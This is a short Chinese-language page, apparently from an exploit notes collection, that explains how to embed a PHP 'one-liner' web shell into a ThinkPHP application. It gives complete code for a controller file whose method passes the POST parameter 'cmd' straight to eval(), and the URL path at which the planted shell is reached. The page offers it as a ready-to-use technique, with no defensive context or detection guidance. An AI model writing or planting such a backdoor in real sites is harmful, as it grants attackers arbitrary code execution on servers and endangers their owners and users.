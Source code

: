 # Thinkphp 专用 shell

> 原文：[http://book.iwonder.run/0day/Thinkphp/1.html](http://book.iwonder.run/0day/Thinkphp/1.html)

## 一、漏洞简介

基于 thinkphp 框架的一句话写法 thinkphp 框架使用入口文件调用控制器，直接写一句话可能会有解析问题导致无法执行指令，研究了一下把一句话套入框架控制器的方法，分享给大家参考，

## 二、漏洞影响

## 三、复现过程

在 index 的控制器文件夹下建立 Test.php 文件，代码如下:

```
<?php 
namespace app\index\controller; 

class Test 

{ 

    public function test() 

    { 

    eval($_POST["cmd"]); 

    } 

} 
```

一句话的地址就是[http://www.0-sec.org/index/test/test](http://www.0-sec.org/index/test/test)

